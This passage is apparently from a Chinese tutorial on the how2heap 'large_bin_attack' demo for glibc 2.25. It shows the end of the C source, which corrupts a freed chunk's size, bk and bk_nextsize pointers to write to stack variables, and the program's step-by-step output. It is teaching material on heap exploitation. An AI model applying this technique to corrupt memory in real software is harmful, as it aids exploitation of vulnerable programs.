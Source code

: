 ```
    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&amp;stack_var1 - 2);
    p2[3] = (unsigned long)(&amp;stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    //让我们再malloc一次,这样被释放的large chunk就被插入到large bin freelist了
    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
    //在这期间,我们的目标已经被改写
            " During this time, targets should have already been rewritten:n");

    fprintf(stderr, "stack_var1 (%p): %pn", &amp;stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %pn", &amp;stack_var2, (void *)stack_var2);

    return 0;
`}`
```

### <a class="reference-link" name="%E8%BF%90%E8%A1%8C%E7%BB%93%E6%9E%9C"></a>运行结果

```
root@284662b4a7a3:~/how2heap/glibc_2.25# ./large_bin_attack
This file demonstrates large bin attack by writing a large unsigned long value into stack
In practice, large bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the targets we want to rewrite on stack:
stack_var1 (0x7ffe64e357c0): 0
stack_var2 (0x7ffe64e357c8): 0

Now, we allocate the first large chunk on the heap at: 0x1d99000
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the first large chunk during the free()

Then, we allocate the second large chunk on the heap at: 0x1d99360
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the second large chunk during the free()

Finally, we allocate the third large chunk on the heap at: 0x1d997a0
And allocate another fastbin chunk in order to avoid consolidating the top chunk with the third large chunk during the free()

We free the first and second large chunks now and they will be inserted in the unsorted bin: [ 0x1d99360 &lt;--&gt; 0x1d99000 ]

Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation, and reinsert the remaining of the freed first large chunk into the unsorted bin: [ 0x1d990a0 ]

Now, we free the third large chunk and it will be inserted in the unsorted bin: [ 0x1d997a0 &lt;--&gt; 0x1d990a0 ]

Now emulating a vulnerability that can overwrite the freed second large chunk's "size" as well as its "bk" and "bk_nextsize" pointers
```